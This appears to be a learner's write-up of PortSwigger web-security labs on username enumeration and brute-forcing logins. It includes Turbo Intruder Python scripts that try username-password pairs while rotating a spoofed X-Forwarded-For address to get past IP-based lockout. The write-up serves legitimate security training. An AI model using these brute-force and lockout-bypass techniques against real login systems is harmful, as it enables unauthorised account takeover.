 ```


def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length and req.response
    if req.status != 404:
        table.add(req)
```
- I got a 302 redirect on a password, I logged in with the username and password and the lab was solved

# Lab: Username enumeration via response timing
- This lab is vulnerable to username enumeration using its response times. To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.
- Your credentials: wiener:peter
# My Solution
- I sent the request repeater and put in a valid username but wrong password
- I was blocked for 30 minutes
- I added X-Forwarded-For header and I got invalid email and password
- I sent the request to turbo intruder, and highlighted the value of the header
- I also highlighted the value of username and password.   
- I used the following code
```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    i = 0
    usernames = open('/home/kali/authenticationlabusernames').read().splitlines()
    passwords = open('/home/kali/authenticationlabpassword').read().splitlines()

    for username in usernames:
        for password in passwords:
            ip = "192.168.1.%d" % (i + 1)  # increment IP for each request
            engine.queue(target.req, [ip, username, password])
            i += 1


def handleResponse(req, interesting):
    if req.status != 404:
        table.add(req)
```
- After some minuted I got 302 respose, I copied the password and logged in.

# Solution
- With Burp running, submit an invalid username and password, then send the POST /login request to Burp Repeater. 
- Experiment with different usernames and passwords. Notice that your IP will be blocked if you make too many invalid login attempts.
- Identify that the X-Forwarded-For header is supported, which allows you to spoof your IP address and bypass the IP-based brute-force protection.
- Continue experimenting with usernames and passwords. Pay particular attention to the response times. Notice that when the username is invalid, the response time is roughly the same. 
- However, when you enter a valid username (your own), the response time is increased depending on the length of the password you entered.
- Send this request to Burp Intruder and select Pitchfork attack from the attack type drop-down menu. 